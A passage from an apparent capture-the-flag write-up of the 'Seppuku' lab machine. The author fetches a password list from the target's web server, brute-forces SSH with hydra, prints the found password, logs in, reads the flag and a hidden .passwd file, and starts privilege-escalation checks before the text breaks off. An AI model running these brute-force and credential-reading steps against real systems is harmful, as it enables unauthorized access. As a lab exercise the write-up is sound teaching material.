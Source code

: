 Also we have got the `username` i.e. `seppuku` from `nmap` recon and the password list from the [`http://seppuku:7601/secret/`](http://seppuku:7601/secret/) so immediately I did

`wget [http://seppuku:7601/secret/password.lst](http://seppuku:7601/secret/password.lst)` and used `hydra` to brute-force the password for username `seppuku`

```bash
saurab@0xsaurab ~/g/m/04-Seppuku> hydra -L hostname -P password.lst $IP -t 40 ssh -o hydra/result -I
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-15 17:40:58
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 40 tasks per 1 server, overall 40 tasks, 93 login tries (l:1/p:93), ~3 tries per task
[DATA] attacking ssh://192.168.3.128:22/
[22][ssh] host: 192.168.3.128   **login: seppuku   password: eeyoree**
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 10 final worker threads did not complete until end.
[ERROR] 10 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-15 17:41:05
```

and guess what… KABOOOM!!! I got the password for the user `seppuku` 

password is `eeyoree`

and now I got the shell!! with `ssh seppuku@$IP` TAAADAAA…

```bash
seppuku@seppuku:~$ whoami
seppuku
seppuku@seppuku:~$ id
uid=1000(seppuku) gid=1000(seppuku) groups=1000(seppuku),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
seppuku@seppuku:~$ ls
local.txt
seppuku@seppuku:~$ cat local.txt 
7e7f3be60c613f1425535126d929786c
seppuku@seppuku:~$ ls -al
total 32
drwxr-xr-x 3 seppuku seppuku 4096 Sep  1  2020 .
drwxr-xr-x 5 root    root    4096 May 13  2020 ..
-rw-r--r-- 1 seppuku seppuku  220 May 13  2020 .bash_logout
-rw-r--r-- 1 seppuku seppuku 3526 May 13  2020 .bashrc
drwx------ 3 seppuku seppuku 4096 May 13  2020 .gnupg
-rw-r--r-- 1 seppuku seppuku   33 Jun 15 06:29 local.txt
-rw-r--r-- 1 root    root      20 May 13  2020 .passwd
-rw-r--r-- 1 seppuku seppuku  807 May 13  2020 .profile
seppuku@seppuku:~$ cat .passwd 
12345685213456!@!@A
seppuku@seppuku:~$ ls -al .gnupg/
total 12
drwx------ 3 seppuku seppuku 4096 May 13  2020 .
drwxr-xr-x 3 seppuku seppuku 4096 Sep  1  2020 ..
drwx------ 2 seppuku seppuku 4096 May 13  2020 private-keys-v1.d
seppuku@seppuku:~$ ls -al .gnupg/private-keys-v1.d/
total 8
drwx------ 2 seppuku seppuku 4096 May 13  2020 .
drwx------ 3 seppuku seppuku 4096 May 13  2020 ..
seppuku@seppuku:~$ sudo -l
Matching Defaults entries for seppuku on seppuku:
```